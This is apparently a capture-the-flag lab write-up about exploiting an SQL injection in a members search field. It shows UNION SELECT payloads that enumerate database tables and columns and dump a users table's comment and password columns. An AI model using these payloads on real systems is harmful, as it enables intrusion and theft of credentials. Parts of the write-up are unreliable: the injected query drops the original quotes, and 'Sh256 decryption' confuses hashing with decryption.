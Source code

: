 # First step

In the members page, the search field gives a feeling to try an SQL injection to get all the table names and its columns names information from the database

# How to do that

I send the script
```
1 OR 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME  FROM INFORMATION_SCHEMA.COLUMNS
```

then after a lot of checks we checks only on the users table
```
1 OR 1=1 UNION SELECT Commentaire, countersign FROM users
```
the original script:
```
SELECT * FROM users WHERE id = 'user_input';
```

after inject the script and send it as an userId:
```
SELECT * FROM users WHERE id = 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users;
```
So the result is a table of users it's gonna be like that:
```
ID: 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

After the Sh256 decryption the flag we get is:
```
59a7f515c31c489524d2c93XXXXXXXXXXXXXXXXXX
```
